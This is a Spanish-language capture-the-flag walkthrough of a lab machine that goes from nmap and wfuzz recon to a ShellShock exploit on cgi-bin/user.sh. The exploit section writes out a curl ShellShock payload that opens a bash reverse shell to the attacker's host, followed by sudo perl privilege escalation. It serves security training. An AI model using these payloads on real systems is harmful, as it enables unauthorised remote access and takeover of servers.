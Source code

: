 ## Summary

Tags:  #Linux #HTTP #ShellShock #Sudoers #Fuzzing #Nmap 

- IP -> 10.10.10.56
- Ports -> TCP (80, 2222), UDP (idk)
- OS ->  Linux Ubuntu 
- Services & Applications
    - 80 -> Apache httpd 2.4.18 
    - 2222 -> OpenSSH 7.2p2 

## Launchpad

* 80 -> Xenial 
* 2222 -> Xenial


## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```

Miramos con Whatweb
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Haremos fuzzing para buscar mas dir en la web. 
```bash
# Para hacer Fuzzing a la web
❯ wfuzz -c --hc=404 --hh=137 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ 

# Como no nos sale nada, debemos de colocarle la barra al final de FUZZ que seria lo mas recomendable
❯ wfuzz -c --hc=404 --hh=137 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/
	# Encontramos un dir llamado 'cgi-bin'

# Este dir sale cuando tenemos un ShellShock como vulnerabilidad, por lo que haremos otro fuzzing pero con ese dir agregado a la ruta para descubrir archivos que pueden existir en ese dir cgi
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,sh-pl-cgi http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
	# Nos encuentra un "user - sh = user.sh"

```

Colocando la ruta final la cual sería: **10.10.10.56/cgi-bin/user.sh** nos permite descargar un archivo a la maquina de atacante. 

Pero en lugar de descargarlo, podemos ver lo que es con curl.
```bash 
❯ curl -s -X GET http://10.10.10.56/cgi-bin/user.sh      # Miramos el contenido del archivo, nos damos cuenta que es un archivo ejecutable dinamico
```

Cuando tenemos la carpeta cgi-bin, podemos hacer un ataque de ShellShock de la siguiente manera. 
```bash 
❯ nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.10.10.56    # Ver si es vulnerable a ShellShock
```

```bash 
curl -s -X GET http://<IP>/cgi-bin/user.sh -H "User-Agent: () { :; }; /usr/bin/whoami"  # Debemos de coloca la ruta del archivo.sh, ya que si solo colocamos /cgi-bin/ nos sladra que no tenemos permisos

	# s = Silence 
	# H = Cabecera para el ataque de ShellShock
	# Ruta absoluta del comando que quieres ejecutar y lo ves con 'which' -> which whoami

# Nos sale que el nombre del usuario es Shelly

# Podemos usar el ShellShock para ganar acceso a la maquina.
curl -s -X GET http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'" 

```

Antes de usar el comando anterior, debemos de colocarnos en escucha para recibir la revershell
```bash
❯ nc -nlvp 443 
```

## User

Una vez dentro de la maquina victima, hacemos el tratamiento de la TTL para obtner una pseudo-consola

```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

Ahora nos disponemos a buscar la flag del usuario. 

```bash
❯ lsb_release -a                             # Miramos algunas caracteristicas de la maquina Linux 
```

## Root

Para convertirnos en root buscamos en el Sudoers
```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoer y poder ejecutar como root algun comando
	
	# (ALL : ALL) ALL
	# ALL=(root) NOPASSWD: /usr/bin/perl
```

Buscamos en la siguiente pagina:
- **GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)

Y encontramos el comando que debemos de ejecutar para poder usar **Perl** y así convertirnos en root. Después buscamos el root.txt. 
